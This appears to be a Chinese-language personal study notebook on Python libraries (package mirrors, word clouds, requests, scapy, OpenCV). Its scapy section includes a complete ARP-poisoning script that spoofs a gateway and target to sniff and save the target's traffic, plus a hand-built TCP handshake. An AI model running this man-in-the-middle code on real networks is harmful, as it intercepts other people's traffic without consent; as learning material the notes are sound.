 Python
==============

修改pip/conda的安装源
::

 conda config --add channels https://mirrors.tuna.tsinghua.edu.cn/anaconda/pkgs/free/
 conda config --set show_channel_urls yes

 新建pip/pip.ini
 [global]
 timeout = 6000
 index-url = https://pypi.tuna.tsinghua.edu.cn/simple
 trusted-host = pypi.tuna.tsinghua.edu.cn


词云
---------------

需要安装jieba、wordcloud
通过命令行直接生成词云的命令行::
 
 wordcloud_cli --text file_path.txt --imagefile wordcloud.png
 # 可以通过wordcloud_cli 进行更详细的调节，需要对文件分词，自带的分词效果较差
 # --fontfile path 支持中文
 # --mask file
 # --background white


通过jieba对中文分词处理::
 
 import jieba
 import wordcloud
 import matplotlib.pyplot as plt

 words = open(r'words.txt','rb').read().decode('utf-8')
 # print(words)
 cut_words = list(jieba.cut(words))
 cut_str = ' '.join(cut_words)
 print(cut_words)
 make = wordcloud.WordCloud(font_path=r'C:\Windows\Fonts\simkai.ttf')
 s = make.generate(cut_str)
 plt.imshow(s)
 plt.axis('off')
 plt.show()

requests库的使用
------------------

发送http请求::

 url = 'https://www.baidu.com'
 headers = {'user-agent':""}
 proxy = {"http":"89.17.37.218:52957"} # 使用代理
 response = requests.get(url,params={"wd":"中国"},proxies=proxy)
 # response.content 是原始页面的byte类型，没有解码
 # response.text 是requests 解码后的数据，解码方式是推测的，可能出错

 response = request.post(url,data) # post 请求

scapy库的使用
-------------------------
模拟三次握手::
 
 windows查看端口 netstat
 
 send(),在第三层发送数据包，但没有接收功能
 sendp(),在第二层发送数据包，同样没有接收功能

 sr(),在第三层发送数据包，有接收功能
 sr1(),在第三层发送数据包，有接收功能，但只接收第一个包
 srloop(),在第三层工作,循环发包

 srp()、srp1()、srploop()与sr,sr1,srloop类似,只是工作在第二层
 开始模拟时需要设置防火墙规则，防止操作系统发送RST
 iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.233.1 -j DROP
 
 flags = 2 为SYN扫描，半开式扫描
 recv=sr1(IP(dst="192.168.233.1")/TCP(dport=10020,sport=7777,flags="S"))
 ack = recv.ack
 seq = recv.seq
 
 发送ACK(flag = 16),完成三次握手！
 send(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=16,seq=ack,ack=seq+1))

 flag为24（ACK = 16，PUSH = 8) 发送数据
 recv1 = sr(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=24,seq=ack,ack=seq+1)/"hi", multi=1, timeout=10)
 如果多次发送数据需要每次对获取的seq+1,然后令ack等于seq+1

 flags=17, FIN（1） + ACK（16），进行连接终结
 recv1=srp1(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,seq=ack,ack=seq+1,flags=17))

arp投毒,抓包::

 from scapy.all import *
 import os
 import sys
 import threading
 import signal
 from scapy.layers.l2 import ARP, Ether

 def restore_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("restore target >>>>>>>")
    send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=5)
    send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=5)
    os.kill(os.getpid(),signal.SIGINT)
 def get_mac(ip_address):
    responses,unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address),
                               timeout=2,retry=10)
    a = 1
    for s,r in responses:
        print(s)
        print("$"*20)
        print(r)
        return r[Ether].src
 def poison_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("begin to ARP poison")
    while True:
        try:
            send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst=target_mac)) # 欺骗主机
            send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst=gateway_mac)) # 欺骗网关
        except KeyboardInterrupt:
            restore_target(gateway_ip,gateway_mac,target_ip,target_mac)

    # print("stoped poison")
 if __name__ == '__main__':

    target_ip = '192.168.0.150'
    gateway_ip = '192.168.0.1'
    packet_count = 10
    conf.verb = 0
    gateway_mac = get_mac(gateway_ip)
    target_mac = get_mac(target_ip)
    print(gateway_mac,target_mac)
    poison_thread = threading.Thread(target=poison_target,args=(gateway_ip,gateway_mac,
                                                                target_ip,target_mac))
    poison_thread.start()
    try:
        bpf_filter = "ip host %s"%target_ip
        packets_ = sniff(count=packet_count,filter=bpf_filter) # 抓包
        wrpcap("arp.pcap",packets_)
        restore_target(gateway_ip,gateway_mac,target_ip,target_mac) # 恢复原先设置
    except KeyboardInterrupt:
        restore_target(gateway_ip, gateway_mac, target_ip, target_mac) # 恢复原先设置

    poison_thread.join()

opencv库的使用

opencv 安装

1. pip install opencv-python==3.4.2.16

2. pip install opencv-contrib-python==3.4.2.16

::
 
 # 读取图片
 cv2.imread(img_path)
 # 读取影像
 video = cv2.VideoCapture(0) # 0 读取本地摄像头
 ret,frame = video.read() # frame 是每一帧,ret 是读取成功与否标志
 cv2.waitKey(10) # 每帧的间隔时间为10 0xFF==27(Esc键)
 
 # 基本操作
 b,g,r = cv2.split(img) # 拆分通道
 cv2.merge((b,g,r)) # 合并通道
 img = cv2.copyMakeBorder(img,20,20,10,10,cv2.BORDER_REFLECT) # 边界填充
 img = cv2.resize(img,(0,0),fx=0.5,fy=0.5) # 重新调整大小
 img = cv2.addWeighted(img,0.5,img,0.6,0) # 图像按权重融合

 # 阈值操作
 ret,img = cv2.threshold(img,127,255,cv2.THRESH_BINARY) 
 
 # 图像平滑
 img = cv2.blur(img,(3,3),borderType=cv2.BORDER_REFLECT) # 均值滤波
 img = cv2.boxFilter(img,-1,(3,3),normalize=True) # 方框滤波 不标准化越界后赋值为255
 img = cv2.medianBlur(img,3) # 中值滤波
 img = cv2.GaussianBlur(img,(3,3),1) # 权重处理
 
 # 形态学操作
 img = cv2.erode(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 腐蚀最大值,针对最大值
 img = cv2.dilate(img,np.ones((5,5),dtype=np.uint8),iterations=1) # 膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_OPEN,np.ones((5,5),dtype=np.uint8)) # 先腐蚀再膨胀
 img = cv2.morphologyEx(img,cv2.MORPH_CLOSE,np.ones((5,5),dtype=np.uint8)) # 先膨胀再腐蚀
 img = cv2.morphologyEx(img,cv2.MORPH_GRADIENT,kernel) # 梯度 膨胀-腐蚀
 # 礼帽=原始输入-开运算结果; 黑帽=闭运算-原始输入

 # 梯度
 img = cv2.Sobel(img,-1,dx=1,dy=1,ksize=3) # sober算子
 img = cv2.Scharr(img,cv2.CV_64F,dx=0,dy=1) # 细节更为丰富
 img = cv2.Laplacian(img,-1,ksize=3) # 对噪音敏感

 # 边缘检测
 # canny 1.高斯滤波 2.梯度(sober) 3.非极大值抑制 4.双阈值检测
 img = cv2.Canny(img,100,120) # 双阈值: minvalue 100,maxvalue 120

 # 高斯金字塔
 img = cv2.pyrUp(img) # 上采样
 img = cv2.pyrDown(img) # 下采样

 # 图像轮廓
 img,contours,hierarchy = cv2.findContours(img,cv2.RETR_TREE,cv2.CHAIN_APPROX_SIMPLE)
 res = cv2.drawContours(img,contours,-1,(0,255,0),1) # 绘制轮廓
 area = cv2.contourArea(contours[0]) # 计算轮廓面积
 arcLen = cv2.arcLength(contours[0],True) # 计算周长
 res = cv2.approxPolyDP(contours[0],0.1*cv2.arcLength(contours[0],True),True) # 近似周长(点)
 x, y, w, h = cv2.boundingRect(contours[0]) # 外界矩形
 rec = cv2.rectangle(img,(x,y),(x+w,y+h),(0,255,0)) # 绘制矩形

 # 直方图
 res = cv2.calcHist([img],[0],None,[256],[0,256]) # 计算直方图
 mask[50:150,50:150] = 255 # 制作mask

 # SIFT
 cv2.xfeature2d.SIFT_create() # 构建sift
 kp = sift.detect(gray,None) # 检测
 img = cv2.drawKeypoints(gray,kp,img)
 kp,des = sift.compute(gray,kp) # 128维向量

 # 特征匹配
 bf = cv2.BFMatcher(crossCheck=True) # 蛮力匹配
 bf.match()

 # 背景建模
 # 1. 帧差法
 # 2. 混合高斯模型(GMM)
